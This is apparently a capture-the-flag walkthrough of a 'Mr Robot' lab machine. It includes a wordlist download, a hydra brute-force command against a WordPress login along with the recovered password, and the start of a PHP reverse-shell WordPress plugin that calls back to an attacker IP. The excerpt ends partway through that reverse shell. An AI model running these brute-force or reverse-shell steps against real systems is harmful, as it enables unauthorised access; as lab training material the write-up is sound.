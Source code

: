 ```bash
/robots (Status: 200)
```

```bash
kali@kali:~$ curl http://10.10.157.219/fsocity.dic > password.txt
```

### #1 What is key 1?

<div className="Image__Medium">
  <img src="https://imgur.com/kSyfQPC.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/ip9jZ1e.png" alt="blog_image" />
</div>

```bash
073403c8a58a1f80d943455fb30724b9
```

### #2 What is key 2?

<div className="Image__Medium">
  <img src="https://imgur.com/bGkyJa4.png" alt="blog_image" />
</div>

```bash
kali@kali:~$ hydra -l Elliot -P password.txt 10.10.157.219 http-post-form "/wp-login:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=10.10.157.219/wp-admin/&testcookie=1:S=302"
```

```bash
[80][http-post-form] host: 10.10.157.219   login: "Elliot"  password: "ER28-0652"
```

<div className="Image__Medium">
  <img src="https://imgur.com/h69iWzK.png" alt="blog_image" />
</div>

### Now let's implement some php reverse shell.

```php
<?php
/*
Plugin Name:  Reverse Shell
Plugin URI: http://shell.com
Description: gimme a shell
Version: 1.0
Text Domain: shell
Domain Path: /languages
*/
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.2.228';  // CHANGE THIS
$port = 9999;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

```